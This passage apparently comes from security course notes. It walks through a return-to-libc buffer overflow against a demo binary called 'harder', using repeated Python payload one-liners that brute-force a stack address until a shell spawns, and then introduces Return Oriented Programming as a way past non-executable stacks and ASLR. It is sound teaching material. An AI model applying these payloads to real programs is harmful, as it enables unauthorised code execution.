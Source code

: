 ``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x60\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBB`???
Segmentation fault (core dumped)
```

That didn't work --- I think that `system()` messed up our string in
some way, but now we are in the range. Let's keep trying addresses up
from there:

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x60\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBB`???
Segmentation fault (core dumped)
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x65\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBBe???
Segmentation fault (core dumped)
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x6a\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBBj???
Segmentation fault (core dumped)
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x70\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBBp???
sh: 1: AAAAAAAAAAAAAAAA: not found
Segmentation fault (core dumped)
```

Now, we've got something cooking. System is trying to execute some input
we provided. Let's just make the rest of the string "/bin/sh;" and maybe
we'll get lucky:

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;/bin/sh;/bin/sh;/bin/sh;/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x70\xf6\xff\xbf'"`
/bin/sh;/bin/sh;/bin/sh;/bin/sh;/bin/sh;AAAA???BBBBp???
$ 
```

So while we didn't get the first one, we eventually found a "/bin/sh".

# Return Oriented Programming: Function Chaining Gadgets

Return Oriented Programming or (ROP) is the process of using small
sequences of code (or gadgets) that are embedded in other code. The
"return" portion of the code comes from the fact that these small pieces
of code, or gadgets, all end with a return statement. The concept is
that while there may be protections in places to stop you from loading
shell code, we can leverage the code already within our target program.

As an additional benefit for ROP, similar to the benefit from
return-2-libc, is that there a ROP chain is functional even when the
stack memory is labeled non-executable and there is memory address
randomization. The reason is that we are only going to use already
existing code to build an exploit, namely code that is in the .text
segment, so it is already labeled executable. Moreover, the .text
segment isn't randomized with ASLR, so it will *always* be consistently
in the same place. This means this style of attack is really powerful
and really consistent.
